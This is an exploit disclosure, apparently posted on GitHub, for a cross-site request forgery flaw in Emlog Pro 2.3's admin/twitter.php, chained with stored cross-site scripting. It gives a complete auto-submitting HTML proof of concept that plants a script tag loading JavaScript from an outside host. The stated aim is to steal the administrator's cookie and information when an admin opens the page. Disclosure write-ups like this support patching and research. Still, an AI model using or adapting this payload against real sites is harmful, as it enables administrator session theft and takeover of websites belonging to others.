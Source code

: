 # Emlog Pro 2.3 twitter.php has CSRF and works with XSS to get administrator information

- **Exploit Title:** Emlog Pro 2.3 has CSRF and works with XSS to get administrator information
- **Date:** 2024-04-01
- **Exploit Author:** shuo sheng,jixin zhang
- **Vendor Homepage:** https://www.emlog.net/
- **Software Link:**https://oss.emlog.net/download/release/emlog_pro_2.3.1.zip
- **Version:** pro2.3

burp to grab the packet

url:http://127.0.0.1/emlog/admin/twitter.php
![图片](https://github.com/ss122-0ss/cms/assets/131983607/b2c3af6a-3834-4665-818a-cd4ea4959e8f)


Use BurpSuite to generate CSRF-POCs, copy them, and test them with a browser or HTML

利用burpsuite生成csrf-poc,复制，用浏览器或者html测试
![图片](https://github.com/ss122-0ss/cms/assets/131983607/1c118a37-0851-40a6-a6e4-4aa6841f0077)

Paste the address generated by burpsuite, create a test, and the test is successful

粘贴burpsuite生成的地址，创建了一个test，测试成功

![图片](https://github.com/ss122-0ss/cms/assets/131983607/a74ba643-3c80-4a58-a685-06108205b653)

Due to the XSS vulnerability here, it can be used with XSS to obtain the administrator cookie and information, and the reproduction process is as follows:

Create a 1.html

payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1/emlog/admin/twitter.php?action=post" method="POST">
      <input type="hidden" name="t" value="&lt;sCRiPt&#32;sRC&#61;&#47;&#47;uj&#46;ci&#47;szi&gt;&lt;&#47;sCrIpT&gt;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Triggered when an administrator accesses a 1.html

```html
<sCRiPt sRC=//uj.ci/szi></sCrIpT>
```

Malicious code is executed, and administrator information is obtained
![图片](https://github.com/ss122-0ss/cms/assets/131983607/f5d42616-2e6f-4947-80a4-087400060f0b)
images\image-20240402170318880.png)
